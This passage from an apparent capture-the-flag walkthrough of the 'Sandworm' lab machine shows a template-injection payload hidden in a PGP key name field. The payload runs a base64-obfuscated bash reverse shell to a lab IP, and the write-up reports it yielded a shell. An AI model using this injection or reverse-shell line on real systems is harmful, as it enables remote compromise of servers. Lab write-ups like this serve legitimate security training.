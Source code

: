 This then resulted is with the following command to create our new key

```
{% raw %}
python keygen.py -p test123 -n "{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNzcvNDQzIDA8JjEgMj4mMQ== | base64 --decode | bash').read() }}" -e atlas@ssa.htb
python sign.py -c keypgp_uwu.pub.asc -k keypgp_uwu.key.asc -p test123 -m "test"
{% endraw %}
```

This resulted in a reverse shell.

![Shell as Atlas](/assets/img/Sandworm/Sandworm_05.png)
